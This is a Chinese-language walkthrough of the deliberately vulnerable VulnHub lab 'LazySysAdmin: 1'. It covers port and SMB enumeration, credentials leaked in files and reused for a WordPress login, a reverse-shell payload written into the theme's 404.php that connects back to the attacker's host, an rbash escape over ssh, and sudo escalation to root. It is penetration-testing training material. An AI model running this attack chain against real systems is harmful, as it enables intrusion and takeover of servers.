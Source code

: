 # LazySysAdmin: 1

2024-6-12 https://www.vulnhub.com/entry/lazysysadmin-1,205/

difficulty: Beginner - Intermediate

## IP

101.1.0.169

## Scan

Open Port -> 22,80,139,445,3306,6667

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 b538660fa1eecd41693b82cfada1f713 (DSA)
|   2048 585a6369d0dadd51ccc16e00fd7e61d0 (RSA)
|   256 6130f3551a0ddec86a595bc99cb49204 (ECDSA)
|_  256 1f65c0dd15e6e421f2c19ba3b655a045 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
| http-robots.txt: 4 disallowed entries
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-generator: Silex v2.2.7
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info:
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 101.1.0.8
|_  error: Closing link: (nmap@101.1.0.8) [Client exited]
```

3306 不允许空密码登陆。

看看 smb 是否有映射信息， enum4linux -a 101.1.0.169 smbclient -L //101.1.0.169 -N

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
share$          Disk      Sumshare
IPC$            IPC       IPC Service (Web server)

Reconnecting with SMB1 for workgroup listing.
```

这里提示要对 SMB1 进行枚举，看看 share$ 有什么:

```
smbclient -N //101.1.0.169/share$

ls

smb: \> ls
.                                   D        0  Tue Aug 15 19:05:52 2017
..                                  D        0  Mon Aug 14 20:34:47 2017
wordpress                           D        0  Wed Jun 12 19:43:37 2024
Backnode_files                      D        0  Mon Aug 14 20:08:26 2017
wp                                  D        0  Tue Aug 15 18:51:23 2017
deets.txt                           N      139  Mon Aug 14 20:20:05 2017
robots.txt                          N       92  Mon Aug 14 20:36:14 2017
todolist.txt                        N       79  Mon Aug 14 20:39:56 2017
apache                              D        0  Mon Aug 14 20:35:19 2017
index.html                          N    36072  Sun Aug  6 13:02:15 2017
info.php                            N       20  Tue Aug 15 18:55:19 2017
test                                D        0  Mon Aug 14 20:35:10 2017
old                                 D        0  Mon Aug 14 20:35:13 2017

3029776 blocks of size 1024. 1241488 blocks available
```

deets.txt 有提示信息：

```
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345

```

进入到 wordpress 文件夹，找到了 wp-config.php 文件，看到了数据库的配置信息：

```
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

smb 无上传权限，无法上传 web shell

mysql 无法远程连接，再看 80 web 服务吧，首页没看出有什么提示，源码也查看了没有，使用 gobuster 进行扫描:

```
gobuster -t 32 dir -u http://101.1.0.169/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,rar,zip,sql,bak -e

http://101.1.0.169/index.html           (Status: 200) [Size: 36072]
http://101.1.0.169/info.php             (Status: 200) [Size: 77147]
http://101.1.0.169/wordpress            (Status: 301) [Size: 313] [--> http://101.1.0.169/wordpress/]
http://101.1.0.169/test                 (Status: 301) [Size: 308] [--> http://101.1.0.169/test/]
http://101.1.0.169/wp                   (Status: 301) [Size: 306] [--> http://101.1.0.169/wp/]
http://101.1.0.169/apache               (Status: 301) [Size: 310] [--> http://101.1.0.169/apache/]
http://101.1.0.169/old                  (Status: 301) [Size: 307] [--> http://101.1.0.169/old/]
http://101.1.0.169/javascript           (Status: 301) [Size: 314] [--> http://101.1.0.169/javascript/]
http://101.1.0.169/robots.txt           (Status: 200) [Size: 92]
http://101.1.0.169/phpmyadmin           (Status: 301) [Size: 314] [--> http://101.1.0.169/phpmyadmin/]
http://101.1.0.169/todolist.txt         (Status: 200) [Size: 79]
```

http://101.1.0.169/robots.txt :

```
Disallow: /old/
Disallow: /test/
Disallow: /TR2/
Disallow: /Backnode_files/
```

http://101.1.0.169/Backnode_files/ 只有这个目录有信息，看了几个文件都没有什么价值。

直接看 http://101.1.0.169/wordpress/ 这个 wordpress 吧，访问后，发现首页一直提醒一个用户名 togie

直接使用 wpscan 进行相关扫描：

```
wpscan --url http://101.1.0.169/wordpress/ -e u
```

Admin 和 admin 发现 2 个用户。

Admin 用户和上面数据库中发现的用户一致，狠有可能密码也是一致，使用 Admin:TogieMYSQL12345^^ 登陆 wordpress 登陆成功。

建立反弹 shell，kali 建立 8888 监听:

```
http://101.1.0.169/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen&scrollto=0

system("/bin/bash -c '/bin/bash -i >& /dev/tcp/101.1.0.8/8888 0>&1'");

curl http://101.1.0.169/wordpress/wp-content/themes/twentyfifteen/404.php
```

得到了反弹的 shell：

```
<ww/html/wordpress/wp-content/themes/twentyfifteen$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

/home 目录下只发现了一个用户 togie，其他的枚举也没发现可提权路径，看样子需要先升级到这个用户，尝试用前面发现的密码 12345 切换，能切换到 togie，发现 togie 的 bash 是 rbash,有限制，需要进行升级。

使用 ssh 重新登陆，并指定 bash:

```
ssh togie@101.1.0.169 -t "bash --noprofile"

输入密码 12345
```

sudo -l 发现有全部权限：

```
(ALL : ALL) ALL
```

直接提权到 root：

```
togie@LazySysAdmin:~$ sudo su
root@LazySysAdmin:/home/togie# id
uid=0(root) gid=0(root) groups=0(root)
root@LazySysAdmin:/home/togie# cd /root
root@LazySysAdmin:~# ls
proof.txt
root@LazySysAdmin:~# cat proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie


Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```
